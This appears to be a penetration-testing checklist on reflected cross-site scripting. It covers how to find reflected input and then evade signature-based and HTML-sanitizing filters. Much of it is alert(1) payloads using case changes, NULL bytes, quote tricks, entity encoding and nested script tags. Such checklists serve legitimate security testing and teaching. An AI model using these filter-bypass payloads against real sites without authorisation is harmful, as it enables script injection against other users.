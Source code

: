 # Reflected XSS

- [ ] Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters. Submit this string as every parameter to every page, targeting only one parameter at a time (Note that both GET and POST requests need to be tested).
- [ ] Monitor the application’s responses for any appearance of this same string.
- [ ] Submit the follwing payload `'';!--"<XSS>=&{()}` where reflection was detected. Check which characters gets encoded or truncated. If there is a filter in place, try to detect what signature it is using.

# Bypassing Signature-Based XSS Filters
- [ ] Starting with the opening tag name, the most simple and naive filters can be bypassed simply by varying the case of the characters used: `<iMg onerror=alert(1) src=a>`
- [ ] Going further, if you modify the example slightly, you can use arbitrary tag names to introduce event handlers, thereby bypassing filters that merely block specific named tags: `<x onclick=alert(1) scr=a>click here</x>`
- [ ] In addition, you can insert NULL bytes in any position. Note: The NULL byte trick works on Internet Explorer anywhere within the HTML page. Liberal use of NULL bytes often provides a quick way to bypass signature-based filters that are unaware of IE's behavior. `<[%00]img onerror=alert(1) src=a>`
- [ ] Several characters can replace the space between the tag names and the first attribute name:
```
<img/onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
<img """><script>alert("alert(1)")</script>">
```
Note: even where an attack does not require any tag attributes, you should always try adding some superfluous content after the tag name, because this bypasses some simple filters: `script/anyjunk>alert(1)</script>`
- [ ] Attributes can optionally be delimited with double or single quotes or, on IE, with backticks:
```
<img onerror="alert(1)"src=a>
<img onerror='alert(1)'src=a>
<img onerror=`alert(1)`src=a>
```
Switching around the attributes in the preceding example provides a further way to bypass some filters that check for attribute names starting with on. img src='a'onerror=alert(1)> By combining quote-delimited attributes with unexpected characters following the tag name, attacks can be devised that do not use any whitespace, thereby bypassing some simple filters: `<img/onerror="alert(1)"src=a>`
- [ ] Within the attribute name and value, you can use the same NULL byte trick described earlier.
```
<img onerror=a[%00]lert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
You can also HTML-encode characters within the value: `<img onerror=a&#x6c;ert(1) src=a>`
Because the browser HTML-decodes the attribute value before processing it further, you can use HTML encoding to obfuscate your use of script code, thereby evading many filters.
- [ ] It is also worth noting that browsers tolerate various deviations from the specifications, in ways that even filters that are aware of HTML encoding may overlook. You can use both decimal and hexadecimal format, add superfluous leading zeros, and omit the trailing semicolon.
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
```

# Beating HTML Sanitizing Filters
- [ ] When you encounter this defense, your first step is to determine precisely which characters and expressions are being sanitized, and whether it is still possible to carry out an attack without directly employing these characters or expressions. For example, if your data is being inserted directly into an existing script, you may not need to employ any HTML tag characters.
- [ ] So, if <script> is being stripped from your input, you should try the following to check whether all instances are being removed: `<script><script>alert(1)</script>`
- [ ] In this situation you should also check whether the sanitization is being performed recursively: `<scr<script>ipt>alert(1)</script>`
